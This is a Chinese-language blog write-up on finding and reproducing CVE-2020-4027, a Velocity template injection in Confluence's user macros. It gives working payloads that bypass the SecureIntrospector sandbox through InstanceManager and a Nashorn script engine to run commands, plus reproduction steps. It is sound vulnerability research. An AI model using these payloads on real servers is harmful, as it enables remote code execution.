


Confluence SSTI via Velocity
---


#### 0x00 前言

之前的文章《CodeQL在Shiro550中的应用》的小结里有写到自己关于`漏洞分析`的浅薄理解, 机械地跟进代码其实并没有太大的意义, 意识到这个问题后的自己也在刻意地练习自己写文章的风格, 希望能改掉一些不好的习惯。

#### 0x01 简介

本文将要介绍以下内容:

- 模板引擎 Velocity 基础使用
- 模拟挖掘 CVE-2020-4027
    - 怎么选择切入点
    - 遇到问题 -> 解决问题的过程
    - 逐步构造出可利用的 Exploit
- 漏洞复现

本文的侧重点:

- 思考 & 记录如何站在漏洞挖掘者的角度去正向地分析漏洞。

#### 0x02 模板引擎 Velocity

Velocity 部分主要关注两点:

- 基本语法 (能看懂 poc/exp)
- 如何作为 RCE Sink触发 (弹计算器)

##### 基本语法和使用

**Velocity** 是一个基于 Java 的模板引擎（template engine）, 允许使用模板语言（template language）来引用由 Java 代码定义的对象。

Velocity 同时可实现页面静态化, 将Java代码与网页分开, 使网站可维护性增强, JSP 的平替代方案。

**0、常见符号介绍**

|   符号   | 含义                                                                          |
|:------:|:----------------------------------------------------------------------------|
| #   | 关键字使用#开头, 如#set、#if、#else、#end、#foreach等                                     | 
|  $   | 变量都是使用$开头的, 如: $name、$msg                                                    |
|  {}  | 需要明确表示的变量, 可用{}将变量包含。如需要有$someoneName这种内容, 此时为了让Velocity区分, 可使用${someone}Name  |
|  ！   | 如果某个变量不存在, 页面中会显示$xxx的形式, 为了避免这种形式, 可在变量名称前加上！如页面中有$msg, 有值, 显示msg的值；不存在就显示$msg |

通过例子来学习基本语法

**1、如何定义变量 ?**

```vm
#set($prefix = "hello")  
#set($name = "velocity")  
#set($template = "$prefix $name")  
$template
```

执行结果


**2、如何给变量赋值 ?**

```vm
## <- 这是注释

## 变量引用
#set($bill = "hello")  
#set($name = $bill) 

## 字符串   
#set($name.pre = "cn")   

## 属性引用, velocity 会将属性解释为属性的get方法
#set($name = $people.name) 
$people.name 等同于 $people.getName()

## 方法引用  
#set($name.first = $peolpe.getFirstName($name)) 
```

赋值规范

- 左边必须是变量, 或者是属性的引用
- 右边可以是变量引用、字符串、属性引用、方法引用、数字、数组

**3、如何定义一个循环语句 ?**

```vm
#foreach( $num in [0..10])  
    this is $num."\n"  
#end
```

执行结果


**4、如何定义条件语句 ?**

```vm
#foreach($num in [0..2])
#if($num == 2)
this $num , hello velocity
#else
#end
#end
```

执行结果


**5、如何定义宏(函数) ?**

1) 无参数的宏

```vm
## 定义了一个宏, 名字为 getName, 没有参数
#macro(getName)
pen4uin
#end

## 使用该宏, velocity 处理 #getName() 时会将其替换为 pen4uin
this is #getName()
```

执行结果


2) 有参数的宏

```vm
## 定义了一个宏, 名字为 greet, 参数是 $name
#macro(greet $name)
hello $name, this is pen4uin
#end
#greet()
```

执行结果


##### 如何作为 RCE Sink 触发

```vm
#*
  定义一个变量 $clazz, 是字符串类型
  通过 String 类型变量的 getClass() 方法取运行时类的对象 $obj
  通过 Class 的静态方法 forName() 获取可供命令执行的类的对象 $rt
  通过反射调用 getRuntime 获取 java.lang.Runtime 的实例并调用静态方法执行命令
*#

#set($clazz="str")
$clazz.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('calc')
```

执行结果



#### 0x03 CVE-2020-4027 post-auth RCE

安全公告

- [Velocity Template Injection in Custom user macros - Macros Platform - CVE-2020-4027](https://jira.atlassian.com/browse/CONFSERVER-59898)

Affected versions of Atlassian Confluence Server and Data Center allowed remote attackers with system administration
permissions to bypass velocity template injection mitigations via an injection vulnerability in custom user macros.

提取关键信息:

- 漏洞条件:`with system administration permissions` 需要管理员权限
- 漏洞触发:`custom user macros`  业务功能点
- 漏洞利用:
    - `bypass mitigations`  需要绕过沙箱后利用
    - `velocity template injection` 漏洞本质 velocity 引擎的问题

梳理信息:

- Confluence 后台有可自定义 marco 的应用功能
- 基于模板引擎 Velocity 实现
- Velocity 的缓解措施可被绕过

##### 漏洞分析

> 模拟挖掘过程, 假设是自己会怎么挖这种漏洞, 记录过程中的分析和思考。

挖掘思路:

对于我来说, 这种漏洞从功能点作为切入点是比较符合`常识`的, 即便黑盒测试遇到这个功能，也会多留意几分。




官方文档中有以下描述

- https://confluence.atlassian.com/doc/writing-user-macros-4485.html


可以知道该功能是基于 Velocity 实现的, 使用 `如何作为 RCE Sink 触发` 这一步构造的 payload, 验证是否可触发。

于是插入该 payload、引用 marco、预览, 然而并没有成功触发。

猜测失败的原因, 最有可能的大概就是: 沙箱机制。所以需要确认是否存在沙箱, 经过一番考古, 成功在 Velocity 历史更新记录中找到了以下描述

- [Changes Report](https://velocity.apache.org/engine/devel/changes.html)

符合对安全机制的设想


```text
New, optional SecureIntrospector prohibits methods that involve manipulation of classes, classloaders or reflection objects. 
Use this introspector to secure Velocity against a risk of template writers using reflection to perform malicious acts. 
```

意思明确, 提供可选的 SecureIntrospector 类来缓解安全风险, 回到代码中, 定位到这个类、验证猜想(沙箱的存在导致触发失败)是否正确。

- org.apache.velocity.util.introspection.SecureIntrospectorImpl


在方法 `checkObjectExecutePermission()`处打上断点，然后引用 marco 预览。

- org.apache.velocity.util.introspection.SecureIntrospectorImpl#checkObjectExecutePermission


如图, 可确认黑名单的存在 (badClasses、badPackage)


由于 java.lang.Class 在黑名单类内, 所以形如 'xxx'.getClass() 的 payload 也就无法正常使用, 会抛出异常 `xxx due to security restrictions`


找到缓解措施后, 该如何进行绕过 & 利用呢 ?

针对基于黑名单的安全机制, 目前在我认知里有两种较为靠谱的方法:

- 找漏网之鱼, 一些隐藏的利用点 (一般隐藏文档和代码里?)
- 找安全机制检测流程的逻辑问题 (难度较大, 比如 fastjson 通过类缓存绕过 checkAutoType)

还是选择啃文档, 毕竟相关文档也不多。

很快就找到了疑似`预期解`的蛛丝马迹, 在 macro template 语法部分有以下说明

- [User Macro Template Syntax](https://confluence.atlassian.com/doc/user-macro-template-syntax-223906130.html)


`Macros can also access objects available in the default Velocity context`, 可以访问上下文中的 objects, 貌似有戏 ? 因为相信关注 Java 漏洞的师傅看到这儿都会多瞅几眼的 :), 毕竟在 Java 的漏洞里, 涉及 `Object` 的还是蛮多的, 前有 XMLDecoder 反序列化中的 object 标签, 近有 Cobalt Strike RCE 中粉墨登场的 Swing object 标签 ?

---

需要看文档确认 `default Velocity context  ` 和 `available objects `都有哪些

- [Confluence objects accessible from Velocity](https://developer.atlassian.com/server/confluence/confluence-objects-accessible-from-velocity/)


可以获取到 ServletContext, 而预期解入口 `$req` 也在其中, 证明文档这思路还是挺可靠的

```text
$res
$req
```

调用 getServletContext() 方法获取当前的 ServletContext:

```text
${req.getServletContext()}
```


熟悉的 ApplicationContextFacade, 相信调过 Tomcat 内存马的师傅都知道这个对象, 植入内存马时若存在 request 对象可以通过反射来获取 StandardContext 对象:

- ApplicationContextFacade ->  ApplicationContext -> StandardContext


取到 ServletContext 后该如何进行 Exploit 呢？自己目前的知识储备中貌似没有相关的利用。

继续啃文档, 范围已经缩小了, 只需要关注 SevletConext 是否存在某些方法可单独作利用 or 串接的作用即可。

- [Method Summary](https://tomcat.apache.org/tomcat-7.0-doc/servletapi/javax/servlet/ServletRequest.html)


留意到方法 `getAttribute()` , `Returns the value of the named attribute as an Object, or null if no attribute of the given name exists`, 调用该方法可根据属性名 (key) 返回一个  `Object`(value) 。

---

首先通过 IDEA 的 `Evaluate Expression` 功能看看都有些啥属性

```text
this.request.getServletContext().getAttributeNames()
```
在 `javax.servlet.ServletRequest.getAttributeNames` 处打下断点，得到可操作的属性有:


PS: 也可以不依赖 IDEA 的功能, 使用原始的办法, 写一个 jsp 放在 Confluence webapp 目录即可, 效果一样

```text
<%@ page import="java.util.Enumeration" %>
<%
    Enumeration<String> enumeration = request.getServletContext().getAttributeNames();
    while(enumeration.hasMoreElements()){
        out.println(enumeration.nextElement() + "<br>");
    }
%>
```


不是很多, 人工过一遍也不麻烦, 很容易注意到 `InstanceManager`

- org.apache.tomcat.InstanceManager


其 `newInstance()` 方法可实例化任意有`无参构造方法`的类, InstanceManager 是个接口, 所以需要使用其实现类来获取想要的实例。

> 构造 poc 验证想法

- [X] 返回的默认实现类的对象 DefaultInstanceManager

```text
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager')}
```


- [x] 调用 DefaultInstanceManager 的 newInstance() 方法实例化有无参构造方法的类

```text
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager')}
```


成功取到 `ScriptEngineManager`。

- [x] 获取 `Nashorn` 脚本引擎并调用其 eval() 方法执行 Java 代码, 完成 Exploit 的最后部分

```text
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('calc')")}
```


---

到这里, 关于这个漏洞的挖掘(分析)过程就结束了, 结果上看还算成功, 但是难免会给人一种"马后炮"的感觉, 所以见仁见智吧！

##### 漏洞复现

登录后台后, 在

- `Manage apps` -> `User Macros` -> `Create a User Macro` -> `Template` -> `Definition of User Macro`
  处插入 payload

```vm
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('calc')")}
```


保存后返回主页

- 单击 C 键, 创建 page, 引用上一步自定义的 `User Macro`, 预览即可触发


#### 0x04 小结

漏洞分析还是有用的, 当对大部分漏洞原理都了如指掌, 挖洞其实也是水到渠成的事情。

---

参考
```
http://www.51gjie.com/javaweb/896.html
https://blog.play2win.top/2021/10/20/Confluence%E6%A8%A1%E6%9D%BF%E6%B3%A8%E5%85%A5%EF%BC%88CVE-2020-4027%EF%BC%89%E5%A4%8D%E7%8E%B0/
```